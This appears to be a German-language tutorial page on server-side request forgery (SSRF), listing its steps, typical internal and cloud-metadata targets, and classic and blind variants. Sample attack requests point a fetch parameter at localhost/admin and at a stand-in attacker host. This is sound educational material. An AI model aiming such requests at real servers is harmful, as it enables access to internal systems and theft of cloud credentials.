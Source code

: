 1. Anwendung ermöglicht Benutzereinbagen, um Ziel-URL oder Ressource für serverseitige Anfrage zu bestimmen. Eingabe kann von URL-Parameter, Formularfelder oder anderen Quellen stammen.
2. Angreifer übermittelt spezielle Anfrage und manipuliert die Eingabe so, dass es auf eine Ressource (interner Server, Backend-Dienst, API usw.) verweist, die hinter Firewalls sind.
3. Server verarbeitet die schadhafte Eingabe des Users und erstellt eine Anfrage an die Ziel-URL.
4. Bei erfolgreicher Verarbeitung stehen dem Angreifen nun die Funktionen und Daten des Serers zur Verfügung.



<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


## Typische Angriffsziele

- **Interne Netze** (z. B. http://192.168.1.1/, http://10.0.0.5/)
- **Cloud-Metadaten-APIs** (z. B. AWS: http://169.254.169.254/latest/meta-data/)
- **Lokale Dienste** (http://localhost:22/, http://127.0.0.1:3306/)
- **Admin-Panels**, die nur intern erreichbar sind
- **SSRF to RCE:** Manche Dienste akzeptieren SSRF-Requests und führen z. B. Befehle aus



<div align="right">

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>

## Arten von SSRF

### 1. Klassischer SSRF

- Der Angreifer kontrolliert eine komplette URL und kann beliebige Ziele ansprechen.
- Beispiel:
```http
http://example.com/fetch?url=http://127.0.0.1/admin
```


<div align=right>

[↑ Inhaltsverzeichnis](#inhaltsverzeichnis)

</div>


### 2. Blind SSRF
- Der Angreifer sieht die Antwort nicht direkt.
- Er kann jedoch Nebenwirkungen erzeugen, z. B. DNS-Requests oder Zeitverzögerungen.
- Beispiel: Zugriff auf einen eigenen Server:
```http
http://example.com/fetch?url=http://attacker.com/callback
```
